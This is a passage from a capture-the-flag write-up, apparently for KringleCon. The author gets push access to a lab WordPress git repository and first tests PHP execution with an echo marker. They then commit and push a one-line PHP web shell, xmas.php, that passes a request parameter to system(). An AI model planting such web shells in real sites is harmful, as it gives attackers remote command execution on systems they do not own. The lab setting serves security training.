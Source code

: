     to set your account's default identity.
    Omit --global to set the identity only in this repository.

    fatal: empty ident name (for <samways@grinchum-land.flag.net.internal>) not allowed
    grinchum-land:~/wordpress.flag.net.internal$ git config --global user.email 
    "totally-an-orc@kringlecon.com"
    
    grinchum-land:~/wordpress.flag.net.internal$ git config --global user.name "orcy"
    ```


And the addition I made to index.php?

!!! abstract ""
    `#!php echo("<!-- agr0 -->");`

A super-innocuous line of code. The idea here is if I `curl` the site after pushing it and grep out `agr0`, it should tell me several things:

 1. I have access to modify the code.
 2. I have access to modify _executable_ code (that is, if the word `#!php echo()` doesn't show up around it).

Then, I committed and pushed.

!!! note

Then ran a curl on the site and grepped for my tag...

!!! abstract ""
    ```sh
    grinchum-land:~/wordpress.flag.net.internal$ curl -s http://172.18.0.88 | grep agr0
    <!-- agr0 -->
    ```

Success! Not only did my HTML comment show up, but the `#!php echo()` function didn't, meaning that it executed my php code!

Now let's get a little interactive shell.

## It's a Christmas Miracle! (shell access)

I created the file `xmas.php`:

!!! abstract "xmas.php"
    ```php
    <?php
    system($_REQUEST['agr0']);
    ?>
    ```

This was super simple. Any command sent to the variable `agr0` would be executed in a shell environment. Because I used the `#!php $_REQUEST['agro']` variable, I can send _either_ a GET or POST request.

I then added it, committed it, and pushed it.

!!! abstract "git commits"
    ```sh
    grinchum-land:~/wordpress.flag.net.internal$ git add .
    grinchum-land:~/wordpress.flag.net.internal$ git commit -m "merry christmas"
    [main 5a6c7d4] merry christmas
     1 file changed, 1 insertion(+)
     create mode 100644 xmas.php
    grinchum-land:~/wordpress.flag.net.internal$ git push
    Enumerating objects: 4, done.
    Counting objects: 100% (4/4), done.
    Delta compression using up to 2 threads
    Compressing objects: 100% (2/2), done.
    Writing objects: 100% (3/3), 306 bytes | 306.00 KiB/s, done.
    Total 3 (delta 1), reused 0 (delta 0), pack-reused 0
